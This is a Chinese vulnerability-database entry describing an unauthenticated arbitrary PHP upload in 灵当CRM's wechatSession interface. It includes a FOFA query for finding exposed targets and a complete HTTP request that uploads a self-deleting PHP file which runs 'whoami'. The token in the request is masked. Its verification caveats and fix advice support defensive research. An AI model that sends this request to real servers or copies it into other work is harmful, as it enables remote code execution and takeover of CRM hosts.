

# 灵当CRM wechatSession token上传PHP

## 条目说明

- 对象与具体问题：灵当CRM；wechatSession token上传PHP
- 版本、配置及部署条件：版本未知；固定token算法/配置及PHP解析
- 认证与权限前提：称匿名但需特定token
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 固定32字节token来源、绑定和有效期未说明，不应无条件称未认证通用上传
- system whoami并自删仍状态变更，路径/输出仅图未视检；在野已知无来源
- 归统一灵当CRM目录，补修复版本

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

## 漏洞描述

灵当CRM wechatSession/index.php 接口存在任意文件上传漏洞，未经身份验证的攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

## 影响版本

灵当CRM

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：body="include/js/ldAjax.js"

POC/EXP：

```http
POST /crm/wechatSession/index.php?token=9******************************f&msgid=1&operation=upload HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Connection: keep-alive
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary03rNBzFMIytvpWhy

------WebKitFormBoundary03rNBzFMIytvpWhy
Content-Disposition: form-data; name="file"; filename="jp.php"
Content-Type: image/jpeg

<?php system("whoami");unlink(__FILE__);?>
------WebKitFormBoundary03rNBzFMIytvpWhy--
```





## 修复方案

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
